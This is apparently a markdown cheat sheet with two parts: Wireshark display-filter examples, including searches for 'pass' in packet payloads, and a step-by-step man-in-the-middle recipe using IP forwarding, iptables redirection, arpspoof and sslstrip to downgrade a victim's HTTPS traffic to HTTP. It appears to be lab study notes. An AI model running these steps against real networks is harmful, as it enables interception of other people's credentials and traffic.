 <details>
  <summary>Filters</summary>

    tcp.port eq 25 or icmp		=> to match 
    tcp.port in {80,443,8080}


    Looking for packet contains this words:
      - tcp.payload contains "GET"
      - tcp.payload contains "pass"


    ip.dst ne 224.1.2.3
    not ip.dst or ip.dst ne 224.1.2.3
    ip.dst and ip.dst ne 224.1.2.3
    eq => equal
    ne => not equal

    
    Packets contains ip from 192.168.0.0 to 192.168.16.16
      - ip.src==192.168.0.0/16 or ip.dst==192.158.0.0/16
  
    ip.addr == 10.43.54.65
    ip.addr != 10.43.54.65
    ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && http
    ip.src != 10.43.54.65 or ip.dst != 10.43.54.65
    ! ( ip.addr == 10.43.54.65 )
    ! (ip.src == 10.43.54.65 or ip.dst == 10.43.54.65)
    wsp.header.user_agent matches "cldc"
    ip.addr in {10.0.0.5 .. 10.0.0.9, 192.168.1.1..192.168.1.9}

    
    HTTP METHODS:
      - http contains "https://www.wireshark.org"
      - http.request.method == "POST"
      - http.request.method in {"HEAD", "GET"}
      
  
    smb || nbns || dcerpc || nbss || dns
    ftp/tcp/dns/ip

    Check for word in a response
      - resp.string==ayhaga
</details>


<details>
  <summary>MITM</summary>

    - linux tool that analyz the packets with wireshark
    - The Network adapter should be Bridged
    
      Step 1: We should set our machine in forwarding mode so that our machine has the capacity to forward each packet that was not expected for your machine.
        #  echo 1 > /proc/sys/net/ipv4/ip_forward 
      
      Step 2: Need to set iptables to redirect traffic from port 80 to port 8080 to ensure outgoing connections to sslstrip.
        #  iptables -t nat -A PREROUTING -p tcp –destination-port 80 -j REDIRECT –to-port 8080
      
      Step 3: Need to find our Network Gateway.
        # route -n
      
      Step 4: Next we need to find our target machine’s IP address
      
      Step 5: ARP spoofing is a technique by which an attacker sends (spoofed) Address Resolution Protocol (ARP) messages onto a local area network.
        # arpspoof -i -t 
      
      Step6: Now we need to listen to port 8080, by opening a new terminal window.
        # sslstrip -l 8080
      
      Step 7: Now we should go to the victim machine and for Ex type facebook.com in the browser as we know Facebook will go with HTTPS, but now check with the             victim machine, we can see the connection established through HTTP.


</details>



